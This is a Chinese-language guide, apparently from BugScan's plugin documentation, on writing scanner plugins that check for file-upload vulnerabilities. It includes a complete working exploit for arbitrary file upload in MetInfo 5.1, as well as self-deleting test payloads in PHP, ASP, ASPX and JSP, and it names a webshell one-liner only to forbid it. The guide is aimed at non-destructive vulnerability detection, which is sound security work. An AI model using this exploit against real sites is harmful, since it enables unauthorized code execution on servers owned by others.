 # 文件上传类
---

文件上传类插件可以分两种方法进行上传:

* raw (**推荐**)

    直接发送 HTTP 原始报文，可直接从 BurpSuite 中复制该报文，使用 curl2 的 raw 发包形式来上传文件。

* post 

	通过构造 `enctype="multipart/form-data"` 形式的 form  表单来上传文件。
	> 由于 MIME 类型较多，在处理时比较麻烦，官方推荐使用 raw 形式上传文件。

    

**范例插件**

[MetInfo5.1 /feedback/uploadfile_save.php 任意文件上传](http://q.bugscan.net/t/1472)

> 感谢插件作者: [wonderkun](http://q.bugscan.net/u/wonderkun)

```
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Author: wonderkun
# Name: MetInfo5.1 任意文件上传 getshell
# Refer: http://www.wooyun.org/bugs/wooyun-2015-0139168
# Data: 2015/12/15

import time

def assign(service,arg):
    if service == fingerprint.metinfo:
        return True, arg

def audit(arg):
    url = arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

    raw = '''
POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
    # proxy=('127.0.0.1',8080)
    code1, head1, res1, finalurl1, log1 = hackhttp.http(url, raw=raw)

    # get upload file name
    name = int(time.time())
    for i in range(100, 10000):
        filename = name + i
        url = arg + 'upload/file/%s.php' % (str(filename))
        code2, head2, res2, finalurl2, log2 = hackhttp.http(url)
        if code2 == 200 and "c4ca4238a0b923820dcc509a6f75849b" in res2:
            # 只用传递触发漏洞的 log，验证上传成功的 log 不需要
            security_hole('file upload Vulnerable:' + arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo", log=log1)
            break
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, "http://127.0.0.1/metinfo5.1/")[1])

```

### 文件上传类插件检测步骤

1. 上传指定文件到目标
2. 访问上传后的文件
3. 判断是不是 1 中上传的文件

### 文件上传类的插件原则

1. 一般情况下要求上传可执行的文件，例如：php, asp, aspx, jsp
2. 上传文件内容要求对目标不得造成任何形式的损害。
3. 上传后的文件，在访问一次之后应该自删除。
4. 文件名应该尽量随机，不要与正常文件名相同。

### 上传文件样例代码

BugScan 社区官方提供了以下几类语言的上传检测样本，供开发者参考，所有文件都会在访问一次之后自删除，如果无删除权限时，由于其只输出字符串，也不会造成太大危害。

* PHP

	```php
	<?php echo md5(233);unlink(__FILE__);?>
	```
	输出: e165421110ba03099a1c0393373c5b43

* ASP

	```
	<%
	Response.Write chr(101)&chr(49)&chr(54)&chr(53)&chr(52)&chr(50)&chr(49)&chr(49)&chr(49)&chr(48)&chr(98)&chr(97)&chr(48)&chr(51)&chr(48)&chr(57)&chr(57)&chr(97)&chr(49)&chr(99)&chr(48)&chr(51)&chr(57)&chr(51)&chr(51)&chr(55)&chr(51)&chr(99)&chr(53)&chr(98)&chr(52)&chr(51)
	CreateObject("Scripting.FileSystemObject").DeleteFile(server.mappath(Request.ServerVariables("SCRIPT_NAME")))
	%>
	```

	访问该文件后输出: e165421110ba03099a1c0393373c5b43

* ASPX

	```
	<%@Page Language="C#"%>
	<%
	Response.Write(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	System.IO.File.Delete(Request.PhysicalPath);
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSP

	```jsp
	<%
	out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	new java.io.File(application.getRealPath(request.getServletPath())).delete();
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

### 文件上传 Q & A

> Q: 为什么不能上传 `eval($_POST[a]);`?

> A: 上传 webshell 会对目标造成危害，违反了无损扫描这一约定，并且上传内容中包含后门特征，容易被防护产品拦截。

---

> Q: 为什么不能上传 `phpinfo();`?

> A: `phpinfo();`看起来无害实际上却有着泄漏目标服务敏感信息的危害。如果在检测后忘记删除文件，会对其它攻击者提供便利。 

---

> Q: 为什么要自删除？
> 
> A: 自删除可保证在检测之后不会在目标系统中留下检测时产生的文件，对目标影响较小。如果上传的件名不是随机的，在下次上传时会出现写入不成功的情况。

---

> Q: 为什么文件名要随机？
> 
> A: 文件名随机在检测没有重命名处理的上传点时好处有：
> 
> 1. 如果文件名与现有的文件同名，写入会失败或者覆盖原文件。
> 2. 第一次检测上传成功，在修复漏洞后忘记删除该文件，下次检测时访问该文件会产生误报。



